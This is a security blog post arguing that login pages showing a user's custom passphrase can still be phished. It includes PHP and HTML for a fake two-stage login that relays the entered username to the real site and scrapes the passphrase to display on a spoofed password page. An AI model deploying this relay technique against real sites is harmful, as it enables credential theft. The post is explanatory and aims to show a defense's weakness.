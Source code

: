 ```yaml
---
layout: post
title: How custom passphrases/pictures still don't protect against phishing
tags:
- security
---
```

As you probably remember, I have lots of interest in phishing techniques (I talked about one [here](/blog/2007/07/11/the-anatomy-of-a-phishing-attack-advanced-technique/), and preventing them [here](/blog/2007/07/11/the-top-17-ways-to-help-eliminate-the-phishing-threat/)).  I've noticed a new trend: a dual stage login form with a custom picture or passphrase.  Users are to gain trust in the login page because their custom configured option is displayed.  The more I started thinking about this, however, I kept seeing an issue - this still can be easily phished!  I'm going to demonstrate a method of phishing the passphrase version.  I don't want to do a picture example because it a) takes more code and b) more people have moved to that thinking it is more secure.  Lets go:

First off, all phishing starts with getting the user to a login page not at the respected domain.  So, lets just skip that step, and examine our login page.  This will be a duplicate of our real site's login page - note the reminder that they will have to verify their passphrase.

**`login.php`** @ fakedomain.com
```html
<form action="login2.php" method="post">
  <label>Username: <input name="username"></input><br></br>
  <em>Remember, you will be asked to verify your passphrase on the next page.</em>
  <br></br>
  <input type="submit" value="Login"></input>
</form>
```

Very simple login which sends it to another page - hopefully named the same as the real domain's login page.

Lets look at the page we'll be submitting to:

**`login2.php`** @ fakedomain.com
```php?start_inline=1    
/** cutting out a lot of code - make sure its not empty, etc **/
$args = array ('username'=>$_POST['username']);
$uri = 'http://realdomain.com/login.do.php';
$opts = array(
  'http' => array(
    'method' => 'POST', 
    'header' => 'Content-Type: application/x-www-form-urlencoded', 
    'content' => http_build_query($args)
  )
);
$context = stream_context_create($opts);
$page_with_phrase = file_get_contents($uri, false, $context);

$doc = new DomDocument();
$doc->loadHTML($page_with_phrase );

$passphrase = $doc->getElementById('passphrase_node')->nodeValue;

// next login form page actually shows the 
// $passphrase phrase and asks for password
include('next_login_form.php');
```

Ok, first off, you'll see we create a nice post with our stream context creation ([detailed here](/blog/2008/11/14/posting-requests-in-php-without-curl/)) - so we basically send the username to the real domain as they had logged in.  (Depending on the target site, you might also have to send referrers, cookies, etc - but we're making it a really simple example here.)

We retrieve the page after a successful post of the username.  This content should now contain the custom passphrase somewhere.  For our example, there is a nicely named `div` or `span` with an id of `passphrase_node`.  Probably, in real life, you'd have to use a complex XPath to get the actual value.

From then on, we just include our 'second' login page which shows the passphrase, and then requests the password from the user.  From there, you can do whatever you want.

**Ok so...**
Its nice to see that people are trying to eliminate phishing - but there still is only one real solution IMHO - and that is to educate users on the address bar (or get them to install a plugin that validates the page they're on.).
